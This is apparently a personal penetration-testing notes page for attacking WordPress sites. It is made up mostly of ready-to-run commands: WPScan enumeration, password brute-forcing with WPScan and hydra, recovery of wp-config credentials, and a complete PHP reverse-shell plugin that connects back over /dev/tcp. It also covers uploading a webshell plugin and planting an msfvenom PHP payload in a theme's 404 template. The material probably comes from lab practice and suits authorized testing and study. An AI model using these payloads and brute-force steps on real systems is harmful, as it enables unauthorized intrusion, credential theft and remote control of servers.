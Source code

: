 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### WPScan
```bash - kali
wpscan -e ap,at,tt,cb,dbe,u,m --detection-mode aggressive --plugins-detection aggressive -t 30 --url http://$TARGET
```

#### Password Cracking
```bash - kali
wpscan --url http://$TARGET -U admin -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
```

#### wp-config.php.swp file
```bash - kali
vim -r .wp-config.php.swp
```

```bash - kali
esc
```

```bash - kali
:w wp-config.txt
```

Now viewing the contents are much easier in wp-config.txt file.

#### WORDPRESS PLUGIN SHELL

[https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell](https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)

```bash - kali
mousepad reverseshell-plugin.php
```

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: [http://www.sevenlayers.com](http://www.sevenlayers.com)
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");

?>
```

```bash - kali
zip reverseshell-plugin.zip ./reverseshell-plugin.php
```

![[rlwrap]]

Plugins > Add new > Upload > Install now
* If this fails, try doing [[Wordpress#Webshell method]]

Now just click on "Activate Plugin" and done!

#### Webshell method
```
cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
```

```
sudo zip plugin-shell.zip plugin-shell.php
```

WordPress > Plugins > add New > Upload > Browse > plugin-shell.zip > Install now

Even if this says it failed to install, STILL RUN THE CURL COMMAND!
![[Pasted image 20220601122227.png]]

```
curl http://$TARGET/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
```

#### php template shell
```bash - kali
msfvenom -p php/reverse_php lhost=$KALI lport=443 -f raw
```

In WordPress, go to Appearance > Theme Editor, choose a page to edit, here we try the 404 page.

After updating, just access a non-existing page to trigger reverse shell.

#### Finding usernames & passwords:
```bash - kali
cd /var/www/html/wordpress
```

```bash
cat wp-config.php | grep DB
```

#### hydra command against wordpress:

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hydra#Hydra against WordPress]]

FROM BURP:
>log=webdeveloper&pwd=root&wp-submit=Log+In&redirect_to=http%3A%2F%2F$TARGET%2Fwp-admin%2F&testcookie=1

```bash - kali
hydra -l webdeveloper -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt $TARGET -s 80 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -f
```

![[Port 3306 - MySQL ~#MySQL to Wordpress password]]

[[3._LFI RFI#Wordpress config php]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

